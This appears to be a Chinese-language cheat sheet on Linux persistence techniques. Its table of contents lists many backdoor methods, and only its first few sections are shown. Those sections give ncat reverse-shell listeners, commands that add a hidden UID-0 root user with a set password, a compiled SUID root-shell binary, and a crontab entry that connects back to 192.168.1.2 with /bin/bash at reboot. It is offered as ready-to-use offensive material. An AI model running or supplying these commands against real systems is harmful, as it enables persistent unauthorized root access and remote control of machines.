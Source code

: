 # Linux - 持久性

## 摘要

* [基本反向Shell](#基本反向Shell)
* [添加root用户](#添加Root用户)
* [SUID二进制文件](#SUID二进制文件)
* [Crontab - 反向Shell](#Crontab-反向Shell)
* [后门化用户的bash_rc](#后门化用户的Bash_RC)
* [后门化启动服务](#后门化启动服务)
* [后门化用户启动文件](#后门化用户启动文件)
* [后门化每日消息](#后门化每日消息)
* [后门化驱动程序](#后门化驱动程序)
* [后门化APT](#后门化APT)
* [后门化SSH](#后门化SSH)
* [后门化Git](#后门化Git)
* [其他Linux持久性选项](#其他持久性选项)
* [参考资料](#参考资料)

## 基本反向Shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## 添加Root用户

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## SUID 二进制文件

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - 反向Shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```
